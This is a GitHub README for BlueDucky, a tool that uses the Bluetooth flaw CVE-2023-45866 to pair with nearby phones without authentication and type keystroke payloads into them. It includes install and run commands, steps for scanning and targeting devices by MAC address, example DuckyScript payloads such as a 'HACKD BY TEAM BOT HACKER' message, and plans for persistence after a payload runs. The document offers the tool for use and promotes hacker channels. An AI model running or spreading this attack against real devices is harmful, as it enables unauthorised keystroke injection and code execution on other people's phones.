


# BlueDucky Ver 2.1 (Android) 

Thanks to all the people at HackNexus. Make sure you come join us on VC !
https://t.me/teambothacker 

NOTES: I will not be able to run this on a laptop or other device outside of a raspberry pi for testing. Due to this, any issues you have will need to be resolved amonsgt each other as I do not have the spare funds to buy an adapter. 

1. [WASIM's GitHub](https://github.com/WASIM-360)
2. [WASIM's GitHub](https://github.com/wasimmoulik008)
3. [WASIM's YOUTUB](https://youtub.com/wasim-360)

<p align="center">
  
</p>

 CVE-2023-45866 - BlueDucky Implementation (Using DuckyScript)

 Unauthenticated Peering Leading to Code Execution (Using HID Keyboard)

[This is an implementation of the CVE discovered by marcnewlin](https://github.com/marcnewlin/hi_my_name_is_keyboard)

<p align="center">
  
</p>

# Introduction
BlueDucky is a powerful tool for exploiting a vulnerability in Bluetooth devices. By running this script, you can:

1. 📡 Load saved Bluetooth devices that are no longer visible but have Bluetooth still enabled.
2. 📂 Automatically save any devices you scan.
3. 💌 Send messages via ducky script format to interact with devices.

I've successfully run this on a Raspberry Pi 4 using the default Bluetooth module. It works against various phones, with an interesting exception for a New Zealand brand, Vodafone.

# Installation and Usage

# Setup Instructions for Debian-based 

```bash
# update apt
sudo apt-get update
sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```
# Setup Instructions for Arch-based 

```bash
# update pacman & packages
sudo pacman -Syyu

# install dependencies
# since arch doesn't separate lib packages: libbluetooth-dev included in bluez package
sudo pacman -S bluez-tools bluez-utils bluez-deprecated-tools \
               python-setuptools python-pydbus python-dbus
               git gcc python-pip \

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```

# Running BlueDucky
```bash
git clone https://github.com/WASIM-360/BlueDucky.git
cd BlueDucky
sudo hciconfig hci0 up
python3 BlueDucky.py
```

alternatively,

```bash
pip3 install -r requirements.txt
```

# Operational Steps
1. On running, it prompts for the target MAC address.
2. Pressing nothing triggers an automatic scan for devices.
3. Devices previously found are stored in known_devices.txt.
4. If known_devices.txt exists, it checks this file before scanning.
5. Executes using payload.txt file.
6. Successful execution will result in automatic connection and script running.

## Duckyscript »
🚧 Work in Progress:
- Suggest me ideas

# Version 2.1
- Updated UI
- Improved User Experience
- Bluetooth Debugger; Checks your bluetooth adapters, and installed dependancies before allowing access to the application, this is to prevent devices that are not supported.
- Please Note: Numerous Changes have been made,please reference the commit history for specific changes.
 
# What's Planned for the Next Release?
- Integrated DuckyScript Console for attacks that want to maintain persistance, after a payload has been ran
- Suggest What Should be added next! Join https://discord.gg/HackNexus

# Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890   HACKD BY TEAM BOT HACKER
GUI D
```

```bash
REM Opens a private browser to hackertyper.net
DELAY 200
ESCAPE
GUI d
ALT ESCAPE
GUI b
DELAY 700
REM PRIVATE_BROWSER is equal to CTRL + SHIFT + N
PRIVATE_BROWSER
DELAY 700
CTRL l
DELAY 300
STRING hackertyper.net
DELAY 300
ENTER
DELAY 300
```

# Enjoy experimenting with BlueDucky! 


